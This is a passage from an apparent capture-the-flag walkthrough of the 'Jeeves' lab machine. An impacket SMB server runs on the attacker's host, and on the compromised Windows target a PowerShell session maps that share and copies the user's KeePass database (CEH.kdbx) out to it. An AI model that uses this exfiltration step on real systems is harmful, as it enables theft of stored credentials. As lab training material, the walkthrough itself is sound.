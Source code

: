 On local machine,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ impacket-smbserver temp . 
Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49719)
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:TEMP)
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:TEMP)
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:TEMP)
```

On victim machine,

```c
PS C:\Users\kohsuke\Documents> dir


    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----        9/20/2021   8:40 AM             93 attack.bat                    
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx                      
-a----        9/20/2021   8:43 AM             93 dummy.bat                     
-a----        9/20/2021   8:40 AM         347648 jp.exe                        


PS C:\Users\kohsuke\Documents> New-PSDrive -Name "temp" -PSProvider "FileSystem" -Root "\\10.10.14.3\temp"

Name           Used (GB)     Free (GB) Provider      Root                      
----           ---------     --------- --------      ----                      
temp                                   FileSystem    \\10.10.14.3\temp         


PS C:\Users\kohsuke\Documents> cd temp:
PS temp:\> cp C:\Users\kohsuke\Documents\CEH.kdbx .
PS temp:\>
```
